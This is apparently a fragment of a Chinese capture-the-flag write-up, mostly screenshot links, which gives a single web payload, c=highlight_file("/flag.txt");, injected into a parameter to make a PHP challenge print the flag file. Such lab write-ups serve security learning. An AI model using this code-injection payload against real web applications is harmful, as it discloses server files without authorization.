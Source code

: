 ![image-20240122124929114](image/image-20240122124929114.png)

构建命令，获取flag

```
c=highlight_file("/flag.txt");
```

![image-20240122125037763](image/image-20240122125037763.png)